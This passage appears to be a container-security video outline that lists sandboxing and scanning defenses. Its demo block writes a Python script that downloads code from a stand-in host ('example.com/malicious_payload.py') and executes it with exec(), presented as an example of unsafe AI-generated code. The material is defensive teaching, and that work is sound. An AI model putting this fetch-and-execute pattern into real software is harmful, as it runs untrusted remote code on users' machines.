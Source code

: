 ### Section 3: Practical Defense Scenarios (12:00 - 20:00)

#### Scenario 1: Testing AI-Generated Code Safely

- Isolating potentially harmful code snippets
- Limiting network access and filesystem access
- Monitoring resource usage and behavior

#### Scenario 2: Dependency Vulnerability Scanning

- Scanning container images for vulnerabilities
- Testing packages in isolated environments
- Automated security scanning workflows

#### Scenario 3: Secure Development Environments

- Containerized development environments
- Separating projects with different trust levels
- Emergency containment and cleanup

### Section 4: Advanced Defense Techniques (20:00 - 23:00)

- AppArmor and SELinux profiles for containers
- Seccomp profiles for system call filtering
- Runtime security monitoring
- Air-gapped container environments

### Wrap-up (23:00 - 25:00)

- Key security principles for container use
- Building security habits into development workflow
- Preview: Episode 1 - Container internals deep dive
- Community challenge: Secure your development environment

## Demo Commands

### Section 1: Threat Demonstration

```bash
# Example of potentially dangerous AI-generated code
# (Safe demonstration - we'll show what NOT to do)
cat << 'EOF' > suspicious_script.py
#!/usr/bin/env python3
import subprocess
import urllib.request

# AI might generate code like this without proper security consideration
def download_and_execute(url):
    response = urllib.request.urlopen(url)
    code = response.read().decode('utf-8')
    exec(code)  # DANGEROUS: Never do this!

# This could be malicious
download_and_execute("https://example.com/malicious_payload.py")
EOF

echo "❌ NEVER run untrusted code directly on your host system!"
```
